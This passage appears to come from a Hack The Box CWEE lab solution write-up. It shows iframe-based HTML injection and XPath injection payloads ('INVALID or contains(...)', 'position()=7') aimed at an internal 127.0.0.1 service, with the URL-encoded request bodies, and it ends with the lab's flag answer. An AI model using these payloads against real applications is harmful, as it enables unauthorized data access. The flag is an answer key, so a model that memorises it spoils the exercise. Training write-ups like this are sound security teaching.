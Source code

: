 ![[HTB Solutions/CWEE/z. images/7fbcfdfdc3e87d0798c27006efd4a4cd_MD5.jpg]]

Alternatively, students can also make the substring to search for to be "Flag":

```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or contains(.,'Flag')" width="800" height="500"></iframe>
```
```http
id=1&title=%3Ciframe+src%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%3Fq%3DINVALID+or+contains%28.%2C%27Flag%27%29%22+width%3D%22800%22+height%3D%22500%22%3E%3C%2Fiframe%3E&desc=Our+custom+CPU+with+the+most+cores+and+the+highest+clock+speed+in+the+world.&comment=comment
```

![[HTB Solutions/CWEE/z. images/4eb33a5007dce4ce3cd87c826ea428cc_MD5.jpg]]

At last, instead of using the `contains` function, students can utilize the `position` function with the value 7 to attain the flag:

```html
<iframe src="http://127.0.0.1:8000/?q=INVALID or position()=7" width="800" height="500"></iframe>
```
```http
id=1&title=%3Ciframe+src%3D%22http%3A%2F%2F127.0.0.1%3A8000%2F%3Fq%3DINVALID+or+position%28%29%3D7%22+width%3D%22800%22+height%3D%22500%22%3E%3C%2Fiframe%3E&desc=Our+custom+CPU+with+the+most+cores+and+the+highest+clock+speed+in+the+world.&comment=comment
```

![[HTB Solutions/CWEE/z. images/86cbd7892e614054e366b33048e65bf8_MD5.jpg]]

Answer: `HTB{9a424de6e92e0153d0c51ad602e0204f}`
